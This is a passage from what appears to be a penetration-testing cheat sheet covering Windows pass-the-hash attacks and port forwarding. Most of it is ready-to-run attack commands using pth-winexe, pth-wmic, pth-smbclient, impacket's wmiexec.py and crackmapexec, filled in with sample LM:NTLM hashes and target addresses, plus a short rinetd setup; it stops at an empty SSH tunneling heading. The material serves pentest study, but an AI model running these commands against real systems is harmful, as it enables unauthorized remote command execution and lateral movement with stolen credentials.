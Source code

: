 ```

#The sam gotten in the LMNT (or NT password)
```
## Windows Pass The Hash
```
#We can pass the hash with the hash gotten with pth-winexe as followed

pth-winexe -U WORKGROUP/offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd

#aad3b435b51404eeaad3b435b51404ee is the empty lm password since the format is LM:NTLM

#Other PassTheHash Technics
pth-wmic -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25 "select Name from Win32_UserAccount"
pth-wims -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25 "cmd.exe /c whoami > c:\temp\result.txt"
pth-smbclient -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25/c$
pth-rpcclient -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25 
```

### PassTheHash with impacket
`
wmiexec.py  -hashes aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 administrator@192.168.1.25
`

### PassTheHash Bruteforce with crackmapexec
`
crackmapexec 10.10.10.10 -u user -H C0F2E311D3F450A7FF2571BB59FBEDE5 
`

## Port Redirection and Tunneling

### Port Forwarding

#### RINETD
```
apt install rinetd
cat /etc/rinetd.conf
# bindadress bindport connectaddress connectport
#Ex: 0.0.0.0 80 216.58.207.142 80
service rinetd restart
```

### SSH Tunneling
 